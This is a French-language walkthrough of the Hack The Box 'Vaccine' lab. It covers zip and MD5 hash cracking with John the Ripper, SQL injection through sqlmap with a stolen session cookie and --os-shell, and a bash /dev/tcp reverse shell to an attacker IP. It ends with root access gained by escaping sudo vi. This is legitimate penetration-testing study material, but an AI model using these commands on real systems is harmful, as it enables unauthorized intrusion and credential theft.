## Lab Title: Vaccine
- Date: 2025-09-25
- Duration: ~120 minutes

### Platform: HTB – Starting Point > Tier 2

### 1. Scenario Summary
1. Comment utiliser **brute forcing** pour les fichier archives
2. Utiliser le **cookie**
3. **SQL Injection** avec `sqlmap`
4. **NetCat** et **Reverse Shell**

### 2. Findings
1. D'abord, on fait la vérification rapide avec `nmap` pour savoir quells services sont disponible dans le machine cible:
    - `nmap -Pn -sV $ip`
    ```code
        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.3
        22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
        Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    ```
    - On a trouvé qu'il y a trois services: `ftp`, `ssh`, `http`

2. Après, on fait un login anonyme avec `ftp` utilisant cette commande:
    - `ftp $ip` >> après avec: username: `anonymous` et le mot de passe: `blank password`

3. Dans le serveur: `ftp`, on a trouvé le fichier: `backup.zip`
    - `get backup.zip` >> mais il est enfermé avec le mot de passe:
    - On doit utiliser `brute forcing`

4. Pour déchiffrer le mot de passe: On utilise `John Ripper`
    - D'abbord, on doit obtenir le hachage de ce fichier ZIP avec l'outil: `zip2john`
        - `zip2john backup.zip -o index.php > hash.txt` >> Le formate: `PKZIP`
    - Après, on utilise `john` pour casser cet hachage:
        - `john --format=PKZIP hash.txt` et `john --show hash.txt`
        - On a obtenu: `741852963` pour ouvrir `backup.zip\index.php`

5. Quand on a analysé le fichier: `index.php`, on a trouvé le hachage de l'utilisateur Admin:
    - c'est **hardcoded**:
    ```code
        if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")
    ```
    - Puis, on peut faire `brute forcing` pour cet hachage: `MD5` >> `2cb42f8734ea607eefed3b70af13bbd3`

6. Pour déchiffrer cela, on utilisé:
    - Format: `format`: `raw-md5` avec l'outil: `john` >> `john --list=formats`
    - Commande: `john --format=raw-md5 md5.txt`
    - On a obtenu le mot de passe de l'Admin: `qwerty789` ave l'outil: `CrackStation`

    - Maintenant, on a les données: `admin:qwerty789`
    - On fait le `login`
    - Après, on peut utiliser **SQL Injection** avec l'outil: `sqlmap`
    - `sqlmap` >> un outil automatic pour **SQL Injection**
    - Avec: `--os-shell` >> on peut appeler `shell` de l'OS.

7. Pour utiliser `sqlmap`, je dois donner `url` et `cookie`
    - J'ai pris le `cookie` avec `Burp Suit` **Target** colonne.
    - `okgr68j02iemdqso1jsh523cbd`
    - Commande: `sqlmap -u http://10.129.95.174/dashboard.php?search=query+any --cookie=PHPSESSID=okgr68j02iemdqso1jsh523cbd`
    - Et pour obtenir `shell` >> on a ajouté: `--os-shell`

    - Dans le machine de l'attaquant: on fait: `nc -lvnp 53`
    - Et dans le serveur: `bash -c "bash -i >& /dev/tcp/10.10.14.92/53 0>&1"` >> c'est payload pour faire une connexion à nous.

8. Après, on a trouvé `user.txt` dans le `/var/lib/postgresql/`

9. Quand on analysé ` /var/www/html/dashboard.php` >> on a trouvé `user=postgres et password=P@s5w0rd!`
    - On peut faire une connexion avec **SSH**
        - `ssh postgres@10.129.95.174` et donner le mot de passe
        - `sudo -l` >> pour montrer les privilèges
    - On a trouvé que l'utilisateur `postgres` peut exécuter `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
        - Ici, on manipulate `pg_hba.conf` avec le contenu:
        ```code
            :set shell=/bin/sh
            :shell
        ```
    - Maintenant, quand on exécute ce fichier: il nous donne `root shell`, Voilà!
    - On a trouvé le `drapeau root` dans le dossier: `/root`

### 3. Idea
1. On a appris comment faire le **brute forcing** pour les fichier **zip**
2. La **manipulation de cookie** avec **Burp Suite**
3. L'outil **sqlmap** pour faire `SQL Injection` >> **--os-shell**
4. Creer `reverse-shell` dans le serveur et enquêter davantage
5. Trouver qu'est-ce que l'utilisateur peut faire >> et manipuler les binaires or fichiers possibles
   pour obtenir le **shell root**

**Voilà!**
- C'est fini: `https://labs.hackthebox.com/achievement/machine/2118023/289`
